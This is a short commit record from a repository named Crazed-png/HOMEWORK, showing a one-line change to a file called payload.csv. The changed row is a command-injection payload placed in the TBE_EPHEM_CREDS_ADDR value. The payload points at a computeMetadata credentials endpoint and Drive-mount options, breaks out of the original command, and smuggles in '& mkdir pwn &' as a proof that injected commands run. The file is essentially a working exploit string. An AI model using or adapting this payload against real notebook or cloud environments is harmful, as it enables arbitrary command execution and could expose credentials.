

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2,3
-TBE_EPHEM_CREDS_ADDR='""172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E \'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo \'drive EXITED\'; ) & mkdir pwn & #'#, 13
+TBE_EPHEM_CREDS_ADDR='//172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E \'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo \'drive EXITED\'; ) & mkdir pwn & #'#, 13
```
